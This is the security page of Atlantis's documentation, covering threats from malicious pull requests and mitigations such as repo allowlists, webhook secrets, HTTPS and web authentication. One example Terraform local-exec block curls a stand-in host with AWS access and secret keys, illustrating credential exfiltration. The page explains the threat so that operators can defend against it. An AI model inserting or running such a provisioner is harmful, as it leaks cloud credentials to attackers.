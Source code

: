 # Security
[[toc]]
## Exploits
Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by
* An attacker submitting a pull request that contains a malicious Terraform file that
  uses a malicious provider or an [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
  that Atlantis then runs `terraform plan` on (which it does automatically unless you've turned off automatic plans).
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://www.terraform.io/docs/provisioners/local-exec.html)
    ```tf
    resource "null_resource" "null" {
      provisioner "local-exec" {
        command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
      }
    }
    ```
* Running malicious custom build commands specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** `master`.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Bitbucket Cloud (bitbucket.org)
::: danger
Bitbucket Cloud does not support webhook secrets. This could allow attackers to spoof requests from Bitbucket. Ensure you are allowing only Bitbucket IPs.
:::
Bitbucket Cloud doesn't support webhook secrets. This means that an attacker could
make fake requests to Atlantis that look like they're coming from Bitbucket.

If you are specifying `--repo-allowlist` then they could only fake requests pertaining
to those repos so the most damage they could do would be to plan/apply on your
own repos.

To prevent this, allowlist [Bitbucket's IP addresses](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)
 (see Outbound IPv4 addresses).

## Mitigations
### Don't Use On Public Repos
Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos without proper configuration of the security settings.

### Don't Use `--allow-fork-prs`
If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-allowlist`
Atlantis requires you to specify a allowlist of repositories it will accept webhooks from via the `--repo-allowlist` flag.
For example:
* Specific repositories: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-allowlist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-allowlist=github.yourcompany.com/*`
* All repositories: `--repo-allowlist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Protect Terraform Planning
If attackers submitting pull requests with malicious Terraform code is in your threat model
then you must be aware that `terraform apply` approvals are not enough. It is possible
to run malicious code in a `terraform plan` using the [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
or by specifying a malicious provider. This code could then exfiltrate your credentials.

To prevent this, you could:
1. Bake providers into the Atlantis image or host and deny egress in production.
1. Implement the provider registry protocol internally and deny public egress, that way you control who has write access to the registry.
1. Modify your [server-side repo configuration](https://www.runatlantis.io/docs/server-side-repo-config.html)'s `plan` step to validate against the
   use of disallowed providers or data sources or PRs from not allowed users. You could also add in extra validation at this point, e.g.
   requiring a "thumbs-up" on the PR before allowing the `plan` to continue. Conftest could be of use here.

### Webhook Secrets
Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-allowlist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is allowlisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

:::tip Tip
If you are using Azure DevOps, instead of webhook secrets add a [basic username and password](#azure devops basic authentication)
:::

### Azure DevOps Basic Authentication
Azure DevOps supports sending a basic authentication header in all webhook events. This requires using an HTTPS URL for your webhook location.

### SSL/HTTPS
If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.

### Enable Authentication on Atlantis Web Server
It is very reccomended to enable authentication in the web service. Enable BasicAuth using the `--web-basic-auth=true` and setup a username and a password using `--web-username=yourUsername` and `--web-password=yourPassword` flags.

You can also pass these as environment variables `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` and `ATLANTIS_WEB_PASSWORD=yourPassword`. 

:::tip Tip
We do encourage the usage of complex passwords in order to prevent basic bruteforcing attacks.
:::
